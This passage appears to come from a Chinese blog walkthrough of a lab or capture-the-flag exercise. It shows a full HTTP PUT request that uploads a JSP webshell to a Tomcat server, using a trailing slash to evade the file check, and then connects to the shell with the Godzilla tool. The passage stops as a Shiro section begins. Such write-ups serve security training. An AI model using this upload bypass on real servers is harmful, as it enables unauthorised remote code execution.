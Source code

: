 然后我们开始复现

首先在主页刷新抓包



<img src="https://i-blog.csdnimg.cn/blog_migrate/df03ae584b717b769314719c6a448cc5.png" alt="" style="max-height:333px; box-sizing:content-box;" />


修改为下面的请求包 然后这里 jsp 后面加 / 是为了绕过检测 否则无法上传

```cobol
PUT /1.jsp/ HTTP/1.1
Host: 192.168.31.131
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
 
jsp的一句话木马
```

```cobol
HTTP/1.1 201 
Content-Length: 0
Date: Tue, 28 Nov 2023 13:24:01 GMT
Connection: close
 
```

上传成功 我们直接访问即可



<img src="https://i-blog.csdnimg.cn/blog_migrate/954eb7b22d113f2054d1962844310c44.png" alt="" style="max-height:120px; box-sizing:content-box;" />


getshell  然后通过哥斯拉访问（我这个是哥斯拉马）



<img src="https://i-blog.csdnimg.cn/blog_migrate/b823fbd66369c70c59fc58cadd1f00e7.png" alt="" style="max-height:520px; box-sizing:content-box;" />


记得配置socks5代理

flag在 根目录

### ubuntu内网- web2 shiro

这里我们开始看8080端口

<img src="https://i-blog.csdnimg.cn/blog_migrate/bc05678f6fa4ca4b8005b98599fef66c.png" alt="" style="max-height:403px; box-sizing:content-box;" />


然后我们抓包
